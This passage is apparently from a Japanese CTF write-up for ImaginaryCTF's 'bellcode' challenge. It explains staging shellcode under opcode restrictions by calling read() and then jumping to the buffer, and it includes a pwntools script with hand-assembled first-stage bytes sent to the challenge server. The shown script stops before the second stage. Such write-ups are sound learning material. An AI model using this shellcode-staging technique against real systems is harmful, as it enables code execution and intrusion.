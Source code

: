 `rdx`に関しては`size`に相当するので、大きい値であれば特に問題はない。ここに値を直接設定する目ぼしい命令が見つからなかったが、手元の環境ではシェルコード実行時に割と大きい値が入っていたのでそのまま利用した。

これで`read(0, buf, size)`が無事に実行出来てシェルコードを流し込む事が出来る。その後は`jmp rsi`を`rsi = buf`の時に実行してシェルコードへ飛ぶ。シェルコードの読み込みが終了した後は残念ながら`rax`は0では無いが[^2]、`rbx`が0なのはそのままだったので前述の手法で`eax`を0にすることが出来る。よって、先程`esi`に`buf`を設定したのと同様にして`esi = buf`とし、`jmp rsi`を実行すれば、書き込んでおいたシェルコードが実行される。

なお、`read`で書き込んだシェルコードは他人のやつを適当にパクって動いたものを使った[^3]。

## Code

```python
from pwn import remote, p32
import sys


DEBUG = "-d" in sys.argv

if DEBUG:
    sc = remote("localhost", 13337)
else:
    sc = remote("bellcode.chal.imaginaryctf.org", 1337)

sc.recvuntil(b"shellcode?\n")



# read(0, buf, size)
shellcode = b""
# set rbx = 0 (for rax = 0 by imul eax, ebx)
shellcode += b"\x87\xc3"      # xchg ebx, eax
shellcode += b"\x0f\xaf\xc3"  # imul eax, ebx
# set rdi = 0
shellcode += b"\x50"  # push rax
shellcode += b"\x5f"  # pop rdi
# set rsi(esi) = buf
second_stage_addr = 0xfac800
shellcode += b"\x05" + p32(second_stage_addr) # add eax, 0xfac800
shellcode += b"\x96"  # xchg eax, esi
# set edx = 0x100 (enough number)
# pass
# set rax = 0
shellcode += b"\x0f\xaf\xc3"
# syscall
shellcode += b"\x0f\x05"  # syscall

# jump shellcode
# set eax = buf
shellcode += b"\x87\xc3"  # xchg ebx, eax (for rax = 0)
shellcode += b"\x05" + p32(second_stage_addr)
# set rdi = rax
shellcode += b"\x96"      # xchg eax, esi
shellcode += b"\xff\xe6"  # jmp rsi

sc.sendline(shellcode)
print(sc.recvline())

print("[+] send 1st")

if DEBUG:
    input("[+] attaching...")

# stolen from: https://inaz2.hatenablog.com/entry/2014/07/04/001851
```

[^1]: そもそも`syscall`すら実行出来ないなら(自己書き換えを除いて)解けないと思う。自己書き換えをするにもスタックのアドレスが必要で、`rsp`を上手く利用するという曲芸になりそう
[^2]: 確か`rcx`もどこかのアドレスが入るらしいが、具体的な値の特徴は忘れた
[^3]: ももいろテクノロジー様、いつもお世話になっています
